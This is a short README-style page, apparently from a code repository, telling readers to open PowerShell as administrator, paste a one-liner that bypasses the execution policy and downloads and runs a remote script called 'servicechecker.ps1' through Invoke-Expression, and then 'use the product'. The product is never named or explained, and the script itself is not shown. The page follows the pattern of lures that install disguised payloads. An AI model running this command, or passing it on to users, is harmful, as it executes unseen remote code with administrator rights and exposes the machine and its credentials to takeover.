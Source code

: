 1) Run powershell as admin
2) paste this in powershell admin powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/Skiedlmao/SafeSSerfinal/main/servicechecker.ps1')"
3) use the product
